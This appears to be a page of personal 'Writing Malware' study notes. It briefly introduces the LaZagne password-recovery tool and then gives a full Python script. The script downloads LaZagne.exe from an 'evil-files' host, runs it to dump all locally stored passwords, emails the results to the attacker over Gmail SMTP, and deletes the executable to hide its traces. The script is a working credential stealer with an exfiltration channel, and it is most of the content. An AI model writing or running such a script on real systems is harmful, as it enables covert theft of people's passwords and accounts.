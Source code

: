 The **`LaZagne project`** is an open source application used to **retrieve lots of passwords** stored on a local computer. Each software stores its passwords using different techniques (plaintext, APIs, custom algorithms, databases, etc.). This tool has been developed for the purpose of finding these passwords for the most commonly-used software.

![https://user-images.githubusercontent.com/10668373/43320585-3e34c124-91a9-11e8-9ebc-d8eabafd8ac5.png](https://user-images.githubusercontent.com/10668373/43320585-3e34c124-91a9-11e8-9ebc-d8eabafd8ac5.png)

This project has been added to [pupy](https://github.com/n1nj4sec/pupy/) as a post-exploitation module. Python code will be interpreted in memory without touching the disk and it works on Windows and Linux host.

download_execute_and_report.py

```python
#! /usr/bin/env python

import requests, subprocess, smtplib, os, tempfile

def download(url):
    get_response = requests.get(url)
    file_name = url.split("/")[-1]
    with open(file_name, "wb") as out_file:
        out_file.write(get_response.content)

def send_mail(email, password, message):
    server = smtplib.SMTP("smtp.gmail.com", 587)
    server.starttls()
    server.login(email, password)
    server.sendmail(email, email, message)
    server.quit()

temp_directory = tempfile.gettempdir()
os.chdir(temp_directory)
download("http://192.168.111.128/evil-files/LaZagne.exe")
result = subprocess.check_output("LaZagne.exe all", shell=True)
send_mail("<email_id>", "<app_pass>", result)
os.remove("LaZagne.exe")
```

![Screenshot 2024-03-18 145236.png](Writing%20Malware%208807b30c1663449c9b571d0ecaf6eef5/Screenshot_2024-03-18_145236.png)

